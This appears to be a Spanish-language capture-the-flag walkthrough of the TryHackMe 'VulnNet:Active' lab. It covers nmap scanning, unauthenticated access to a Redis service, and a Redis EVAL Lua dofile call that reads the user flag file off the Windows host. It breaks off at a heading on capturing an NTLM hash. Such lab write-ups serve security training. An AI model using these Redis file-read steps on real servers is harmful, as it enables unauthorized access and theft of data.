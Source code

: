 ## TryHackMe  <> VulnNet:Active

![image](https://github.com/Esevka/CTF/assets/139042999/c8b2b883-92a5-4ef7-9caf-9ef5029519b8)

Enlace Maquina: https://tryhackme.com/room/vulnnetactive

Enunciado : 

  - Obtener acceso completo al sistema y comprometer dominio.
  - Conseguir Flags
---

## Escaneo de puertos (NMAP).

-Buscamos puertos abiertos en en la maquina victima.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# nmap -p- -open -sS --min-rate 5000 -n -Pn -vvv 10.10.12.222 -oG open_ports                                                                              
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-20 06:32 CEST
    
    PORT      STATE SERVICE      REASON
    53/tcp    open  domain       syn-ack ttl 127
    135/tcp   open  msrpc        syn-ack ttl 127
    139/tcp   open  netbios-ssn  syn-ack ttl 127
    445/tcp   open  microsoft-ds syn-ack ttl 127
    464/tcp   open  kpasswd5     syn-ack ttl 127
    6379/tcp  open  redis        syn-ack ttl 127
    9389/tcp  open  adws         syn-ack ttl 127
    49665/tcp open  unknown      syn-ack ttl 127
    49668/tcp open  unknown      syn-ack ttl 127
    49669/tcp open  unknown      syn-ack ttl 127
    49670/tcp open  unknown      syn-ack ttl 127
    49684/tcp open  unknown      syn-ack ttl 127
    49698/tcp open  unknown      syn-ack ttl 127

  -Extraemos los puertos de la captura anterior para lanzarles unos scripts basicos de reconocimiento.

  Utilizamos un Script en bash simple pero de gran ayuda. Script-->  https://github.com/Esevka/CTF/tree/main/Bash

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# list_port open_ports              
    
    [+]Puertos Disponibles --> (Copiados en el Clipboard)
    
    53,135,139,445,464,6379,9389,49665,49668,49669,49670,49684,49698


  -Lanzamos scripts basicos de reconocimiento sobre los puertos abiertos.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# nmap -p 53,135,139,445,464,6379,9389,49665,49668,49669,49670,49684,49698 -sCV -n -Pn 10.10.12.222 -vvv -oN info_ports
    
    PORT      STATE SERVICE       REASON          VERSION
    53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
    135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds? syn-ack ttl 127
    464/tcp   open  kpasswd5?     syn-ack ttl 127
    6379/tcp  open  redis         syn-ack ttl 127 Redis key-value store 2.8.2402
    9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
    49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
    49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49684/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
---
## Analizamos la informacion obtenida sobre los puertos.

La informacion obtenida sobre los puertos es un poco escueta, pero aun asi hay un puerto que llama la atencion.

--Puerto 6379 (Redis)

    Que es Redis?
    
    Redis es una base de datos en memoria de código abierto y un almacén de datos de tipo clave-valor.
    
    Esto significa que los ejemplos de uso de Redis no se parecerán a las tablas de una base de datos relacional típica,
    sino que se centrarán en cómo almacenar y recuperar datos utilizando claves.

    Redis es eficiente en la gestión de datos clave-valor y es especialmente útil para almacenar datos temporales, configuraciones, caché 
    y en situaciones donde se requiere alta velocidad y baja latencia.

  Info--> Redis Pentesting[+] https://exploit-notes.hdks.org/exploit/database/redis-pentesting/

  1)Conectamos a la BD sin credenciales a ver si podemos obtener algo.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# redis-cli -h 10.10.12.222
    10.10.12.222:6379> 

  2)Listamos el número de claves que continenen las bases de datos, no hay nada.
    
    10.10.12.222:6379[3]> info keyspace
    # Keyspace

  3)Listamos todas las configuraciones y sus valores actuales.
  
    102) "no"
    103) "dir"
    104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"  ---> INTERESANTE
    105) "maxmemory-policy"

  De la linea 104 deducimos que --> enterprise-security <-- es un usuario local del sistema, por lo que ya tenemos un usuario del sistema.

    Info: Redis mediante el comando EVAL nos permite ejecutar scripts en Lua los cuales deben ser pasados como cadena(String).


  4)Sabiendo esto podriamos leer la flag de usuario.(La ip cambia hemos tenido que reiniciar la maquina.)

    10.10.240.193:6379> Eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
    (error) ERR Error running script (call to f_ce5d85ea1418770097e56c1b605053114cc3ff2e): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near 
    '3eb176aee96---------0bc93580b291e'

  5)Capturamos el Hash NTLM del usuario
    
  



    


    
    




  






  

  


